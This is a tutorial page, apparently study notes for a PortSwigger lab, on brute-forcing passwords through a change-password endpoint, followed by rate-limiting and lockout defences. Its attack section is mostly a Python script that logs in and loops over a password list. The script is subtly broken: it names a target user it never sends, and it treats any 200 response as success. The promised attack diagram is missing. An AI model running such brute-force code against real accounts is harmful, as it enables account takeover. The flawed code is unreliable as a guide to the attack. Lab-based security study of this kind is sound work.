

## Authentication Vulnerabilities: Password Brute Force via Password Change

### Background Theory

Authentication vulnerabilities are among the most critical issues in web security. They can allow attackers to gain unauthorized access to user accounts, leading to potential data breaches, financial losses, and reputational damage. One such vulnerability is the password brute force attack, particularly when it is performed via the password change functionality.

#### What is a Password Brute Force Attack?

A password brute force attack involves systematically checking all possible combinations of characters until the correct password is found. This method is effective against weak or commonly used passwords but can be time-consuming and resource-intensive.

#### Why Does Password Brute Force Matter?

Password brute force attacks are significant because they can bypass even strong authentication mechanisms if the underlying password is weak. Additionally, if the application does not implement proper rate limiting or account lockout mechanisms, an attacker can repeatedly attempt to guess the password until they succeed.

### Understanding the Scenario

In this scenario, we are dealing with an authenticated brute force attack via the password change functionality. This means that the attacker already has a valid session and is using it to attempt to change the password of another user, typically through a password reset or change feature.

#### Prerequisites

To perform this attack, the attacker needs:

1. **Authenticated Session**: A valid session token or credentials to authenticate with the application.
2. **Change Password Endpoint**: The URL and parameters required to change a user's password.
3. **List of Candidate Passwords**: A file containing potential passwords to try.

### Detailed Steps and Code Example

Let's break down the process step-by-step and provide a complete code example.

#### Step 1: Obtain an Authenticated Session

First, the attacker needs to log in to the application to obtain a valid session. This can be done using the login endpoint.

```python
import requests

# Define the login URL and credentials
login_url = "http://example.com/login"
username = "attacker_user"
password = "attacker_password"

# Perform the login request
session = requests.Session()
response = session.post(login_url, data={"username": username, "password": password})

# Check if the login was successful
if response.status_code == 200:
    print("Login successful")
else:
    print("Login failed")
```

#### Step 2: Identify the Change Password Endpoint

Next, the attacker needs to identify the URL and parameters required to change a user's password. This information can often be found in the application's documentation or by inspecting network traffic.

```python
# Define the change password URL and initial data
change_password_url = "http://example.com/change-password"
initial_data = {
    "current_password": "old_password",
    "new_password": "new_password",
    "confirm_new_password": "new_password"
}
```

#### Step 3: Prepare the List of Candidate Passwords

The attacker needs a file containing potential passwords to try. This file should be read and processed line by line.

```python
# Read the list of candidate passwords
with open("passwords.txt", "r") as f:
    lines = f.readlines()

# Print the first few lines to verify
print(lines[:5])
```

#### Step 4: Perform the Brute Force Attack

Now, the attacker can loop through each password in the list and attempt to change the target user's password.

```python
target_username = "carlos"

for pwd in lines:
    pwd = pwd.strip()  # Remove any trailing whitespace
    data = {
        "current_password": pwd,
        "new_password": "new_password",
        "confirm_new_password": "new_password"
    }
    
    # Send the change password request
    response = session.post(change_password_url, data=data)
    
    # Check if the password change was successful
    if response.status_code == 200:
        print(f"Password changed successfully with {pwd}")
        break
    else:
        print(f"Failed to change password with {pwd}")
```

### Mermaid Diagram: Attack Flow

Here is a mermaid diagram illustrating the attack flow:



### Real-World Examples

#### Recent Breaches Involving Password Brute Force

One notable example is the breach of LinkedIn in 2012, where hackers obtained over 167 million user passwords. Many of these passwords were weak and susceptible to brute force attacks. This highlights the importance of using strong, unique passwords and implementing robust security measures.

### How to Prevent / Defend

#### Detection

To detect brute force attacks, the application should monitor login attempts and password change requests. Tools like intrusion detection systems (IDS) and security information and event management (SIEM) systems can help identify unusual patterns of behavior.

#### Prevention

1. **Rate Limiting**: Implement rate limiting on login and password change endpoints to prevent rapid successive attempts.
2. **Account Lockout Mechanisms**: Automatically lock accounts after a certain number of failed login attempts.
3. **Strong Password Policies**: Enforce strong password policies, requiring users to choose complex passwords.
4. **Multi-Factor Authentication (MFA)**: Require MFA for sensitive actions like changing passwords.

#### Secure Coding Fixes

Here is an example of how to implement rate limiting and account lockout mechanisms in Python:

```python
from flask import Flask, request, jsonify
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

app = Flask(__name__)
limiter = Limiter(app, key_func=get_remote_address)

@app.route('/login', methods=['POST'])
@limiter.limit("5/minute")  # Allow 5 login attempts per minute
def login():
    username = request.form['username']
    password = request.form['password']
    
    # Check if the username and password are valid
    if check_credentials(username, password):
        return jsonify({"message": "Login successful"})
    else:
        return jsonify({"message": "Invalid credentials"}), 401

@app.route('/change-password', methods=['POST'])
@limiter.limit("3/minute")  # Allow 3 password change attempts per minute
def change_password():
    current_password = request.form['current_password']
    new_password = request.form['new_password']
    
    # Check if the current password is valid
    if check_current_password(current_password):
        update_password(new_password)
        return jsonify({"message": "Password changed successfully"})
    else:
        return jsonify({"message": "Invalid current password"}), 401

def check_credentials(username, password):
    # Implementation to check username and password
    pass

def check_current_password(current_password):
    # Implementation to check current password
    pass

def update_password(new_password):
    # Implementation to update password
    pass

if __name__ == '__main__':
    app.run(debug=True)
```

### Hands-On Practice

For hands-on practice, consider using the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to web security, including password brute force attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for learning about web security vulnerabilities.

These labs provide a safe environment to practice and understand the concepts discussed in this chapter.

### Conclusion

Understanding and preventing authentication vulnerabilities, especially password brute force attacks, is crucial for maintaining the security of web applications. By implementing strong security measures and regularly monitoring for suspicious activity, organizations can significantly reduce the risk of such attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/13-Lab 12 Password brute force via password change/01-Introduction to Authentication Vulnerabilities|Introduction to Authentication Vulnerabilities]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/13-Lab 12 Password brute force via password change/00-Overview|Overview]] | [[03-Broken Authentication Vulnerability Password Brute Force via Password Change|Broken Authentication Vulnerability Password Brute Force via Password Change]]
